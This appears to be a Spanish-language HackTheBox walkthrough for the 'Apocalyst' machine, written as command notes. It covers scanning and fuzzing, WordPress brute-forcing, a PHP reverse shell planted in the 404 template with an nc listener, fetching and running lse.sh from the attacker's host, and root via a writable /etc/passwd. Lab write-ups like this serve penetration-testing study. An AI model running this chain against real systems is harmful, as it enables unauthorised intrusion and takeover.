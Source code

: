 # Apocalyst

IP:  10.10.10.46

 
## Ip y whichSystem.py

`ping -c 1  10.10.10.46`

`whichSystem.py  10.10.10.46`

## Scanning

`nmap -p- --open -T5 -n -v 10.10.10.46 -oN allPorts`

`whatweb http://10.10.10.46`

`nmap -sC -sV -p22,80 10.10.10.46 -oN targetedPorts`

`locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u`

`nmap --script "vuln and safe" -p80 10.10.10.46`

`nmap --script http-enum -p80 10.10.10.46 -oN webScan`

## Miramos la web

- Wapallyzer 
- CTRL+U
- Vemos los JS cargandolos desde apocalyst.htb
- Virtual Hosting

`nano /etc/hosts` --> 10.10.10.46 apocalyst.htb

- wp-login.php

`wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ`

`wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ` --> -L redirects

- wpseku github
- git clone
- pip3 install -r -requirements
- python3 wpseku.py
- python3 wpseku.py --url http://apocalyst.htb

`wpseku.py --url http://apocalyst.htb > ~/htb/apocalyst/content/wpScan`

`cewl -w dictionary http://apocalyst.htb`

`cat dictionary | wc -l`  

`wfuzz -c -L --hc=404 --hh=157 -w dictionary http://apocalyst.htb/FUZZ`

## Trabajamos con la imagen

`file image.jpg`

`strings image.jpg -n 10`

`binwalk image.jpg`

`steghide info image.jpg`

`steghide extract -sf image.jpg` 

`python3 wpseku.py --url "http://apocalyst.htb" --brute --user Falaraki --wordlist /home/yintao/htb/apocalyst/content/list.txt`


## Dentro del wordpress

- Appearance --> Editor --> 404 template 
- https://github.com/pentestmonkey/php-reverse-shell
- Cambiamos IP y port al script
- Lo copiamos en el 404
- bash --> `nc -nlvp 443`
- apocalyst.htb/?p=404.php

~~~
whoami
uname -a
hostname -I
script /dev/null -c bash
~~~
- CTRL+Z
- ssty raw -echo
- fg
- reset
- xterm --> echo $TERM --> export TERM=xterm
- export SHELL=bash
- CTRL+L

~~~
cd /home/
cat user.txt
cd /root/
~~~

## Escalada de privilegios
- `wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh`
- `python -m SimpleHTTPServer`

~~~
wget http://10.10.14.23:8000/lse.sh
chmod +x lse.sh
/lse.sh.
/lse.sh -l 1
~~~
- Podemos escribir en /etc/passwd
~~~
cat /etc/passwd
cat /etc/login.defs | grep "ENCRYPTED_METHOD"
openssl passwd
nano /etc/passwd 
~~~
- Cambiamos X de root por el hash de openssl
- su root
- whoami
- cd /root/
- cat root.txt
